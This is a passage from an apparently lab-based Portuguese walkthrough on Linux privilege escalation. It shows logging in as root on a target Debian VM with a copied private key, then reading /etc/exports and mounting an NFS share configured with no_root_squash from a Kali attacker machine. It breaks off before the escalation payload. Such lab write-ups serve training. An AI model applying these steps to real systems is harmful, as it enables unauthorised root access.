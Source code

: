 Copie a chave para o host atacante (é mais fácil apenas visualizar o conteúdo do arquivo ***root_key*** e copiar/colar a chave) e dar as permissões corretas, caso contrário, seu cliente SSH se recusará a usá-lo:

```shell
chmod 600 root_key
```

Use a chave para fazer login na VM Debian como a conta root:

```shell
ssh -i root_key root@IP_HOST_ALVO
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 19 - NFS

Os arquivos criados via NFS herdam o ID do usuário remoto. Se o usuário for ***root*** e o ***root squashing*** estiver ativado, o ID será definido como o usuário "***nobody***".

Verifique a configuração do compartilhamento NFS na VM Debian alvo:

```shell
user@debian:~$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```
O compartilhamento ***/tmp*** tem root squashing desabilitada.

Na máquina atacante (Kali Linux, por exemplo), mude para o usuário root se ainda não estiver executando como root.

Usando o usuário root do Kali, crie um ponto de montagem  e monte-o em /tmp (atualize o IP de acordo):

```shell
┌──(root㉿kali)-[~]
└─# mkdir /tmp/nfs
┌──(root㉿kali)-[~]
└─# mount -o rw,vers=2 10.10.133.218:/tmp /tmp/nfs
```
